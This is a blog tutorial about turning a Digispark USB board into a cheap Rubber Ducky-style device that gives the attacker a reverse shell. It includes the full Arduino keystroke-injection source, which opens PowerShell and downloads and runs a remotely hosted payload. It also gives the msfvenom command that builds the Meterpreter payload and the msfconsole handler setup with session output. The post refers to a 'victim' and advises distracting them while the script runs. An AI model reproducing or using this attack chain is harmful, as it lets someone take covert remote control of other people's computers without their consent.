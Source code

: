 +++
title = "Digispark Reverse-Shell"
date = 2018-01-20T17:03:46+01:00
draft = false
authors = ["_N0x"]
+++

# Reverse Shell for 1,50€ - Digispark instead of USB Rubber Ducky

Some of you might already have heard of it: The [USB Rubber Ducky by Hak5](https://hakshop.com/products/usb-rubber-ducky-deluxe). A very special USB-Device: Not only a mass storage device but any usb input-device you want it to be. Because of this you can use it for some very nice ways to get your payload onto a victims PC.  The Rubber Ducky is freely programmable so there are no limits on what you can do with it. The only problem is the high (but reasonable) price of $45. In this tutorial I will show you how you can use the Digispark USB Deveoplment Board as a cheap alternative. As an example we will be creating a reverse shell, that will be launched when you plug the Digispark into a windows PC.

## You will need:

* [Digispark USB Development Board](http://digistump.com/products/1)
* [Kali Linux](https://www.kali.org/) with [Metasploid-Framework](https://www.metasploit.com/)

## Digispark USB Development Board

The Digispark from Digistump is a tiny, programmable micro-controller that can be programmed with the [Arduino-IDE](https://www.arduino.cc/en/main/software). The syntax is very similar to the one of Arduino-Boards. A tutorial on how to set the IDE up for the Digispark can be found here: [Connecting and Programming Your Digispark](http://digistump.com/wiki/digispark/tutorials/connecting)

I bought a bunch of Digisparks of eBay for little money. They aren't original  (you can tell from the "rev3" which was never released) but they still are fully functional and perfect for our purposes.

For a nice video to set the Digispark up, check out this [tutorial by Seytonic](https://www.youtube.com/watch?v=fGmGBa-4cYQ)

## Creating the Payload

First of all we  need to create the payload that will be deployed and executed by the Digispark on our target machine. We will use [MSFvenom](https://www.offensive-security.com/metasploit-unleashed/msfvenom/) for this.

    msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.0.0.10 LPORT=4444 -f psh-cmd

You need to replace the LHOST parameter with you IP address. You also could use your domain and use the reverse shell even outside of your network.

Now... here we find the first difficulty. Unlike the Rubber Ducky which can use a SD-card of any size, the Digispark only has 6kb of internal memory and the library we are going to need to use the Digispark as a Keyboard itself has about 2,4kb.  So there is no space to place the payload directly on it.
To get our payload on the victim-PC we need to make it accessible on the web. We could use a local web-server, upload the plain payload to [pastebin](http://pastebin.com/) or just place it on our webspace.

## Programming The Digispark

After we've created the Payload we can start with programming the Digispark! Here we have to keep in mind that to program the Digispark you have to work with a US-Keyboard-Layout, this means you have to account for special characters and such if your keyboard layout is one of foreign origin.

The Sourcecode for the Digispark:

    #include "DigiKeyboard.h"

    /*  US-KEYBOARD-LAYOUT ONLY!!
    *
    *  still needs some testing... but should work
    *
    *  Made by _N0x
    *  Thanks to Alex (http://0xdeadcode.se/archives/581) for the idea of using a small powershell payload.
    */

    void setup() {
    // Adding some LED-effects just for fun ;)
    pinMode(1, OUTPUT);

    delay(100);
    // WIN+r, delete content, start powershell
    DigiKeyboard.sendKeyStroke(KEY_R, MOD_GUI_LEFT); // WIN+r
    delay(100);
    DigiKeyboard.sendKeyStroke(KEY_DELETE); // Clean it up
    delay(50);
    DigiKeyboard.println("powershell");
    delay(500);

    // turn the LED on
    digitalWrite(1, HIGH);
    // $url = '...' --> URL to Payload
    DigiKeyboard.println("$url = 'LINK_TO_HOSTET_PAYLOAD'");
    delay(50);
    
    // $result = Invoke-WebRequest -Uri $url
    DigiKeyboard.println("$result = Invoke-WebRequest -Uri $url");
    delay(50);
    
    // powershell.exe -nop -e $result.content
    DigiKeyboard.println("powershell.exe -nop -e $result.content");

    // turn off the led if the payload is places and executed
    digitalWrite(1, LOW);

    delay(1500);
    DigiKeyboard.println("exit");
    }
    
    void loop() {
    // if done with the scripts LED starts blinking

    digitalWrite(1, HIGH);
    delay(150);
    
    digitalWrite(1, LOW);
    delay(500);
    
    }

In principle you can leave the script unchanged and only change the URL for the Payload, so that the Payload you chose can be downloaded. The Digispark should now be ready for use! Before you storm out and try to plug it into the next best USB-Port though, you should prepare Kali Linux so that your Reverse-Shell Session can be accessed directly and as soon as needed.

## Preparing MSFconsole

To prepare the receiving-end for the Reverse-Shell, open a Terminal on your Kali Linux system and start MSFconsole by entering

    root@kali:~# msfconsole

Then specify what exploit you want to use:

    msf > use exploit/multi/handler

Now there are still some parameters we have to determine:

    msf exploit(handler) > set payload windows/meterpreter/reverse_tcp
    payload => windows/meterpreter/reverse_tcp
    msf exploit(handler) > set LHOST 10.0.0.10
    LHOST => 10.0.0.10
    msf exploit(handler) > set LPORT 4444
    LPORT => 4444

Replace the vlaue of LHOST with the IP/Domain you used when creating the payload with MSFconsole

To finish things off we have to tell our Console that it has to wait for a new session:

    msf exploit(handler) > exploit -z -j
    [*] Exploit running as background job.

    [*] Started reverse TCP handler on 10.0.0.10:4444 
    [*] Starting the payload handler...

Now it's done! You can search for the next best PC to test your Digispark out! After you plug your Digispark in a Powershell will be opened and then closed, within this timeframe you have to distract your victim, after your USB Dev. Board starts to blink fastly you know your script has been executed and you can unplug the Digispark. If everything went how it should've your console should display this:

    msf exploit(handler) > [*] Sending stage (957487 bytes) to 10.0.0.3
    [*] Meterpreter session 1 opened (10.0.0.10:4444 -> 10.0.0.3:49678) at 2017-02-06 20:25:36 +0100

At last you have to pin your session, like this:

    msf exploit(handler) > sessions -i 1
    [*] Starting interaction with 1...

    meterpreter > 

And now: Congratulations! You now have a Reverse-Shell on your victims PC! With the command "help" you can see what you can do now.

Have fun, Good luck, Stay safe and don't let yourself get distracted by people with a Digispark! :D

## EDIT 2022-03-11:
Here are some more usefull tools people recommended to me over the years regarding creating payloads for the digispark from for example ducksript:
 - [duck2spark by MaMe82](https://github.com/mame82/duck2spark)
 - [OverThruster by RedLectroid](https://github.com/RedLectroid/OverThruster)
